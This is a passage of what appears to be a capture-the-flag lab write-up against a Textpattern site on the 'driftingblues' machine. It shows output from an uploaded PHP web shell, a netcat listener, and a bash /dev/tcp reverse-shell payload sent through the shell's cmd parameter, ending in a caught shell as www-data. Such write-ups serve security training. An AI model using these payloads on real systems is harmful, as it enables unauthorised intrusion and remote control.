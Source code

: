 ```http
Cookie: txp_login_public=e903ded730mayer
Connection: close
```

### response
```http
HTTP/1.1 200 OK
Date: Sat, 19 Nov 2022 16:04:39 GMT
Server: Apache/2.2.22 (Debian)
X-Powered-By: PHP/5.5.38-1~dotdeb+7.1
Vary: Accept-Encoding
Content-Length: 54
Connection: close
Content-Type: text/html

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> It works! We got a shell.
{: .prompt-info }

---

# post exploitation
## reverse shell
### start listener on attacker machine
```bash
$ nc -lvp 80
listening on [any] 80 ...
```

### trigger reverse shell
payload: `bash -c 'bash -i >& /dev/tcp/192.168.49.76/80 0>&1'`
```http
GET /textpattern/files/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.76/80+0>%261' HTTP/1.1
Host: 192.168.76.219
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: txp_login_public=e903ded730mayer
Connection: close
```

### catch connection from target
```bash
$ nc -lvp 80
listening on [any] 80 ...
192.168.76.219: inverse host lookup failed: Unknown host
connect to [192.168.49.76] from (UNKNOWN) [192.168.76.219] 39977
bash: no job control in this shell
www-data@driftingblues:/var/www/textpattern/files$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
